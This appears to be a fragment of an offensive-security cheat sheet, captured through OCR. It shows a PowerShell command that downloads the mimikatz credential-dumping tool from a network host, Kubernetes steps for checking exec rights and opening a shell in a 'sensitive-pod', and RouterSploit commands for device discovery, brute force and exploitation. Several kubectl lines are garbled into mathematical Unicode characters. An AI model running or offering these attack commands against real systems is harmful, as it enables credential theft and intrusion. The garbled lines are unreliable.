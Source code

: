 ```
powershell iwr -usebasicparsing http://192.168.2.2/mimikatz.exe -OutFile mimikatz.exe

```

## List of Pods

```
𝑘𝑢𝑏𝑒𝑐𝑡𝑙 𝑔𝑒𝑡 𝑝𝑜𝑑
```

## Check if you have rights to exec into any pods

```
./𝑘𝑢𝑏𝑒𝑐𝑡𝑙 𝑎𝑢𝑡ℎ 𝑐𝑎𝑛 − 𝑖 𝑒𝑥𝑒𝑐 𝑝𝑜𝑑𝑠
```

## exec into sensitive-pod

```
./𝑘𝑢𝑏𝑒𝑐𝑡𝑙 𝑒𝑥𝑒𝑐 − 𝑖𝑡 𝑠𝑒𝑛𝑠𝑖𝑡𝑖𝑣𝑒 − 𝑝𝑜𝑑 /𝑏𝑖𝑛/𝑏𝑎𝑠ℎ
```

## More information about the environment

```
kubectl get nodes -o wide
```


## RouterSploit

### Discover Devices

```
python rsf.py -m discovery
```

### Scan for vulnerabilities

```
python rsf.py -m vulnerability
```


### Brute Force

```
python rsf.py -m bruteforce
```


### Exploit vulnerabilities

```
python rsf.py -m exploit
```
